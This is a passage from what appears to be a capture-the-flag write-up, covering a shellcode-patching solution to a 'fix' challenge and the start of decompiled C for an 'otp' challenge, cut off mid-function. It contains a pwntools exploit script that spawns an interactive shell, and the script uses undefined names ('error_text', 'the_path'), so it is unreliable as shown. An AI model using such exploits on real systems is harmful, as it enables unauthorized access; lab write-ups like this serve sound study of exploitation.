 We can overwrite the `push eax` to `leave`, which equals to `mov esp，ebp;pop ebp`. (change char in index 15 to `\xc9`).

However, the program will alter that it cannot find a file. We just create the file with content `sh`:
```python
from pwn import *

p = process('/home/fix/fix')

p.sendline("15")
p.sendline("201")
p.recvuntil('get shell\n')
error = p.recvline()
p.kill()

a = error_text.find('open ')
fname = error[a+5:-1]
f = open(fname,'w')
f.write('sh\n')
f.close()

p = process(the_path)
p.sendline("15")
p.sendline("201")
p.interactive()
```

## Others...

Some guys use `ultimate` to make stack larger. You can also hook the file in gdb to get shell.

# otp

Overview:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  unsigned __int64 v4; // rax
  __int64 v5; // [rsp+0h] [rbp-D0h]
  __int64 tmp_name; // [rsp+10h] [rbp-C0h]
  __int64 v7; // [rsp+18h] [rbp-B8h]
  __int64 ptr; // [rsp+20h] [rbp-B0h]
  FILE *stream; // [rsp+28h] [rbp-A8h]
  FILE *fd2; // [rsp+30h] [rbp-A0h]
  int fd; // [rsp+3Ch] [rbp-94h]
  char tmp_file_name; // [rsp+40h] [rbp-90h]
  unsigned __int64 v13; // [rsp+C8h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  if ( argc == 2 )
  {
    fd = open("/dev/urandom", 0, envp, argv);
    if ( fd == -1 )
      exit(-1);
    if ( (unsigned int)read(fd, &tmp_name, 0x10uLL) != 16 )
      exit(-1);
    close(fd);
    sprintf(&tmp_file_name, "/tmp/%llu", tmp_name);
    stream = fopen(&tmp_file_name, "w");
    if ( !stream )
      exit(-1);
    fwrite(&v7, 8uLL, 1uLL, stream);
```